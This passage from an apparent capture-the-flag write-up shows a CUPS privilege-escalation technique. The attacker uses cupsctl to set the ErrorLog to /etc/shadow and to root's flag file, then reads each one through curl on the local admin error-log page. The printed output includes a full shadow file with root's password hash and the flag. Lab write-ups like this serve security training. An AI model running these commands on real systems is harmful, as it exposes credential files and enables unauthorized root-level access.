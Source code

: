 ```
cupsctl ErrorLog="/etc/shadow"
```
Now sending a curl request to view error log page, reveals the content of /etc/shadow file (as well as root.txt).
```
lp@antique:~$ cupsctl ErrorLog="/etc/shadow"
lp@antique:~$ curl http://localhost:631/admin/log/error_log
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18891:0:99999:7:::
lp@antique:~$ cupsctl ErrorLog="/root/root.txt"
lp@antique:~$ curl http://localhost:631/admin/log/error_log
fa21719665a3e328f0935b246e83c027
```
